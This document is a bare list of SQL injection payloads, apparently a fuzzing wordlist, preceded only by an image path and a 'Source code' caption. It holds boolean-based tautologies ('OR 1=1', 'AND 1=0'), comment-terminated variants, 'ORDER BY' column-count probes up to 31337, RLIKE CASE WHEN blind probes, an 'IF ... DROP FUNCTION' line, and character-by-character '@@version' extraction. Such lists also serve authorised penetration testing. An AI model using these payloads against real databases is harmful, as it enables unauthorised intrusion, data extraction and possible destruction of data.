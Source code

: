      OR 1=1
     OR 1=0
     OR x=x
     OR x=y
     OR 1=1#
     OR 1=0#
     OR x=x#
     OR x=y#
     OR 1=1-- 
     OR 1=0-- 
     OR x=x-- 
     OR x=y-- 
     OR 3409=3409 AND ('pytW' LIKE 'pytW
     OR 3409=3409 AND ('pytW' LIKE 'pytY
     HAVING 1=1
     HAVING 1=0
     HAVING 1=1#
     HAVING 1=0#
     HAVING 1=1-- 
     HAVING 1=0-- 
     AND 1=1
     AND 1=0
     AND 1=1-- 
     AND 1=0-- 
     AND 1=1#
     AND 1=0#
     AND 1=1 AND '%'='
     AND 1=0 AND '%'='
     AND 1083=1083 AND (1427=1427
     AND 7506=9091 AND (5913=5913
     AND 1083=1083 AND ('1427=1427
     AND 7506=9091 AND ('5913=5913
     AND 7300=7300 AND 'pKlZ'='pKlZ
     AND 7300=7300 AND 'pKlZ'='pKlY
     AND 7300=7300 AND ('pKlZ'='pKlZ
     AND 7300=7300 AND ('pKlZ'='pKlY
     AS INJECTX WHERE 1=1 AND 1=1
     AS INJECTX WHERE 1=1 AND 1=0
     AS INJECTX WHERE 1=1 AND 1=1#
     AS INJECTX WHERE 1=1 AND 1=0#
     AS INJECTX WHERE 1=1 AND 1=1--
     AS INJECTX WHERE 1=1 AND 1=0--
     WHERE 1=1 AND 1=1
     WHERE 1=1 AND 1=0
     WHERE 1=1 AND 1=1#
     WHERE 1=1 AND 1=0#
     WHERE 1=1 AND 1=1--
     WHERE 1=1 AND 1=0--
     ORDER BY 1-- 
     ORDER BY 2-- 
     ORDER BY 3-- 
     ORDER BY 4-- 
     ORDER BY 5-- 
     ORDER BY 6-- 
     ORDER BY 7-- 
     ORDER BY 8-- 
     ORDER BY 9-- 
     ORDER BY 10-- 
     ORDER BY 11-- 
     ORDER BY 12-- 
     ORDER BY 13-- 
     ORDER BY 14-- 
     ORDER BY 15-- 
     ORDER BY 16-- 
     ORDER BY 17-- 
     ORDER BY 18-- 
     ORDER BY 19-- 
     ORDER BY 20-- 
     ORDER BY 21-- 
     ORDER BY 22-- 
     ORDER BY 23-- 
     ORDER BY 24-- 
     ORDER BY 25-- 
     ORDER BY 26-- 
     ORDER BY 27-- 
     ORDER BY 28-- 
     ORDER BY 29-- 
     ORDER BY 30-- 
     ORDER BY 31337-- 
     ORDER BY 1# 
     ORDER BY 2# 
     ORDER BY 3# 
     ORDER BY 4# 
     ORDER BY 5# 
     ORDER BY 6# 
     ORDER BY 7# 
     ORDER BY 8# 
     ORDER BY 9# 
     ORDER BY 10# 
     ORDER BY 11# 
     ORDER BY 12# 
     ORDER BY 13# 
     ORDER BY 14# 
     ORDER BY 15# 
     ORDER BY 16# 
     ORDER BY 17# 
     ORDER BY 18# 
     ORDER BY 19# 
     ORDER BY 20# 
     ORDER BY 21# 
     ORDER BY 22# 
     ORDER BY 23# 
     ORDER BY 24# 
     ORDER BY 25# 
     ORDER BY 26# 
     ORDER BY 27# 
     ORDER BY 28# 
     ORDER BY 29# 
     ORDER BY 30#
     ORDER BY 31337#
     ORDER BY 1 
     ORDER BY 2 
     ORDER BY 3 
     ORDER BY 4 
     ORDER BY 5 
     ORDER BY 6 
     ORDER BY 7 
     ORDER BY 8 
     ORDER BY 9 
     ORDER BY 10 
     ORDER BY 11 
     ORDER BY 12 
     ORDER BY 13 
     ORDER BY 14 
     ORDER BY 15 
     ORDER BY 16 
     ORDER BY 17 
     ORDER BY 18 
     ORDER BY 19 
     ORDER BY 20 
     ORDER BY 21 
     ORDER BY 22 
     ORDER BY 23 
     ORDER BY 24 
     ORDER BY 25 
     ORDER BY 26 
     ORDER BY 27 
     ORDER BY 28 
     ORDER BY 29 
     ORDER BY 30 
     ORDER BY 31337 
     RLIKE (SELECT (CASE WHEN (4346=4346) THEN 0x61646d696e ELSE 0x28 END)) AND 'Txws'='
     RLIKE (SELECT (CASE WHEN (4346=4347) THEN 0x61646d696e ELSE 0x28 END)) AND 'Txws'='
    IF(7423=7424) SELECT 7423 ELSE DROP FUNCTION xcjl--
    IF(7423=7423) SELECT 7423 ELSE DROP FUNCTION xcjl--
    %' AND 8310=8310 AND '%'='
    %' AND 8310=8311 AND '%'='
     and (select substring(@@version,1,1))='X'
     and (select substring(@@version,1,1))='M'
     and (select substring(@@version,2,1))='i'
     and (select substring(@@version,2,1))='y'
     and (select substring(@@version,3,1))='c'
     and (select substring(@@version,3,1))='S'
     and (select substring(@@version,3,1))='X'
